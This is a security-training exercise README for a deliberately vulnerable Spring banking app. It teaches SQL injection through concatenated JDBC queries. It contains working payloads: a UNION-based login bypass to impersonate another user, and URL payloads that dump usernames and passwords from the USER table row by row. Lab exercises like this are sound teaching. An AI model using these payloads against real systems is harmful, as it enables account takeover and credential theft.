 # Exercise 3 - SQL injection
Exercise to help you understand SQL injection and its mitigations

## Setup and Start Applications

1. check out exercise3 
   * from command line: 'git checkout exercise3'
1. start the v-bank-app in debug mode
   * with maven command:'mvn clean spring-boot:run -f ./v-bank-app/pom.xml'

## Look for SQLi vulnerabilities
Hints:
* In java classes where database operations are carried out; in such classes an instance of the javax.sql.DataSource is injected:
```
    @Autowired
    private DataSource dataSource;
```
  * Please note that this is not an universal property of code vulnerable to SQLi, it only stands for classes in our application that is based on Java and Spring.
* Where SQL is concatenated in the code before passing it onto the JDBC api.
`connection.createStatement().executeQuery("SELECT * FROM ACCOUNT ACC WHERE ACC.USERNAME  = '" + userName + "'")`

Present vulnerabilities:
* In the *JDBCUserDetailsService* class that is responsible for loading the UserDetails upon authentication
* In the *JDBCAccountService* class that is an implementation of the *AccountService* utilizing the JDBC API directly

##Exploit to understand
* The SQL in the JDBCUserDetailsService class is `"SELECT USERNAME, PASSWORD FROM USER U WHERE U.USERNAME = '" + uname + "'"`.
  This should be tweaked so to return USERNAME, PASSWORD pair with a known password:
`SELECT USERNAME, PASSWORD FROM USER U WHERE U.USERNAME = '' AND SELECT 'bob','password' --'`
using below input on login page:
  * username: ' UNION SELECT 'bob' AS USERNAME,'x' AS PASSWORD --
  * password: x
  This makes the code return a UserDetails object with the username (bob) and password (x) values set in the injected SQL snippet.
  Exploiting this SQLi vulnerability in the authentication component Alice could easily log in as Bob.
* The home page is calling a REST service at http://vbank.0.0.0.0.xip.io:8080/api/v1/account/ACCOUNT_NO where ACCOUNT_NO URL fragment is taken as the parameter of the SQL query selecting user details. This parameter is SQL injectable. 
  * we check if we can do UNION select on this parameter, injecting 4 additional result columns with an UNION injection into the original query: > http://vbank.0.0.0.0.xip.io:8080/api/v1/account/' UNION SELECT '1', '2','3','4' -- 
  * as this works we can use it to exfiltrate user credentials: > http://vbank.0.0.0.0.xip.io:8080/api/v1/account/' UNION SELECT USERNAME, PASSWORD, '3', '4' FROM USER --
  * since it returns only one row we have to iterate over the USER table: http://vbank.0.0.0.0.xip.io:8080/api/v1/account/' UNION SELECT USERNAME, PASSWORD,'3','4' FROM (SELECT ROWNUM() as ROW_NUM, USERNAME, PASSWORD FROM USER) WHERE ROW_NUM=1 --
  * increment ROW_NUM till it reaches the end of the USER table.

### Task
Use the transaction history page to exfiltrate data with SQL injection: http://vbank.0.0.0.0.xip.io:8080/history?accountNo=ACCOUNT_NO (where account no is the SQL injectable parameter).
* Hint: http://vbank.0.0.0.0.xip.io:8080/history?accountNo=%27%20UNION%20SELECT%20%271%27,%272%27,%273%27,%274%27,%275%27,%276%27,%277%27%20--


